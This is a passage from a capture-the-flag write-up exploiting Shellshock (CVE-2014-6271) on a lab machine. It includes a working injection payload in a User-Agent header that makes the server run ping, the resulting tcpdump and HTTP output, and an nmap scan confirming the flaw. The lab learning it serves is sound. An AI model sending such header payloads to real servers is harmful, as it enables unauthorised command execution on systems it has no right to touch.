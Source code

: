 
    07:52:43.101742 IP 10.10.10.56 > 10.10.14.15: ICMP echo request, id 12866, seq 1, length 64
    07:52:43.101766 IP 10.10.14.15 > 10.10.10.56: ICMP echo reply, id 12866, seq 1, length 64



The results come back in the response:



    HTTP/1.1 200 OK
    Date: Mon, 17 May 2021 11:57:37 GMT
    Server: Apache/2.4.18 (Ubuntu)
    Connection: close
    Content-Type: text/x-sh
    Content-Length: 261

    PING 10.10.14.15 (10.10.14.15) 56(84) bytes of data.
    64 bytes from 10.10.14.15: icmp_seq=1 ttl=63 time=18.9 ms

    --- 10.10.14.15 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 18.955/18.955/18.955/0.000 ms



If I remove the `echo;`, and send
`User-Agent: () { :;}; /bin/ping -c 1 10.10.14.15`, `tcpdump` still sees
the ICMP packet, but the response from the server is a 500. I think that
without the newline, it puts the output in the HTTP headers, which is
non-compliant stuff in the headers, leading to a crash. That said, I
wasn't able to get things like `python3 -c 'print()'` to create the
newline and return results (though it prevents the 500). I didn't have a
good explanation as to why, but also couldn't let it go, so more in
[Beyond Root](#shellshock-chained-commands).

#### nmap

`nmap` has a
[script](https://nmap.org/nsedoc/scripts/http-shellshock.md) to test
for ShellShock. I'll need to give it the URI for the script to check:



    oxdf@parrot$ nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-16 07:17 EDT
    Nmap scan report for 10.10.10.56
    Host is up (0.019s latency).

    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    | http-shellshock: 
    |   VULNERABLE:
    |   HTTP Shellshock vulnerability
    |     State: VULNERABLE (Exploitable)
    |     IDs:  CVE:CVE-2014-6271
    |       This web application might be affected by the vulnerability known
    |       as Shellshock. It seems the server is executing commands injected
    |       via malicious HTTP headers.
    |             
    |     Disclosure date: 2014-09-24
    |     References: